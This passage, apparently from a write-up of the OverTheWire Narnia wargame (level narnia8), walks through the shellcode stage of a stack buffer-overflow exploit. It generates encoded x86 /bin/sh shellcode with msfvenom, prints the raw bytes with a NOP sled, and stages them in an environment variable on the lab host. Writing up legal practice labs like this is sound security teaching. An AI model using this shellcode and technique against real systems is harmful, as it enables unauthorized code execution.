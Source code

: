 ```
```
We've successfully overwritten the return address at `[1]`. Now we need to find a place to put in shellcode. As the buffer size is rather small, I opt to put the shellcode in an environmental variable.

Generating shellcode:
```
root@kali:~# msfvenom -p linux/x86/exec cmd=/bin/sh -f c -b '\x00\x20' -e x86/shikata_ga_nai
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of c file: 319 bytes
unsigned char buf[] = 
"\xda\xdd\xd9\x74\x24\xf4\xbb\x75\xaf\xf4\x7f\x5a\x31\xc9\xb1"
"\x0b\x83\xc2\x04\x31\x5a\x16\x03\x5a\x16\xe2\x80\xc5\xff\x27"
"\xf3\x48\x66\xb0\x2e\x0e\xef\xa7\x58\xff\x9c\x4f\x98\x97\x4d"
"\xf2\xf1\x09\x1b\x11\x53\x3e\x13\xd6\x53\xbe\x0b\xb4\x3a\xd0"
"\x7c\x4b\xd4\x2c\xd4\xf8\xad\xcc\x17\x7e";
```
I found that 0x20 would drop my buffer, so I include that as a bad character. I delete all the formatting and add a NOP slep, so the shellcode looks like:
```
root@kali:~# cat shellcode
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
\xda\xdd\xd9\x74\x24\xf4\xbb\x75\xaf\xf4\x7f\x5a\x31\xc9\xb1
\x0b\x83\xc2\x04\x31\x5a\x16\x03\x5a\x16\xe2\x80\xc5\xff\x27
\xf3\x48\x66\xb0\x2e\x0e\xef\xa7\x58\xff\x9c\x4f\x98\x97\x4d
\xf2\xf1\x09\x1b\x11\x53\x3e\x13\xd6\x53\xbe\x0b\xb4\x3a\xd0
\x7c\x4b\xd4\x2c\xd4\xf8\xad\xcc\x17\x7e
```
Transfer that shellcode over to narnia:
```
narnia8@narnia:~$ echo '
> \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
> \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90
> \xda\xdd\xd9\x74\x24\xf4\xbb\x75\xaf\xf4\x7f\x5a\x31\xc9\xb1
> \x0b\x83\xc2\x04\x31\x5a\x16\x03\x5a\x16\xe2\x80\xc5\xff\x27
> \xf3\x48\x66\xb0\x2e\x0e\xef\xa7\x58\xff\x9c\x4f\x98\x97\x4d
> \xf2\xf1\x09\x1b\x11\x53\x3e\x13\xd6\x53\xbe\x0b\xb4\x3a\xd0
> \x7c\x4b\xd4\x2c\xd4\xf8\xad\xcc\x17\x7e
> ' > /tmp/shellcode
narnia8@narnia:~$ 
```
Convert it to binary:
```
narnia8@narnia:~$ for line in $(cat /tmp/shellcode); do                            
> echo -en $line
> done > /tmp/shellcode.bin
narnia8@narnia:~$ cat /tmp/shellcode.bin
���������������������������������t$��u��Z1ɱ
                                           ��1ZZ����'�Hf�.��X��O��M��	S>�S�
                                                                                        �:�|K�,����~
```
And finally set it as an environmental variable:
```
narnia8@narnia:~$ export SHELLCODE=$(cat /tmp/shellcode.bin)
narnia8@narnia:~$ env
SHELLCODE=���������������������������������t$��u��Z1ɱ
                                                     ��1ZZ����'�Hf�.��X��O��M��	S>�S�
```

[overthewire]: https://www.overthewire.org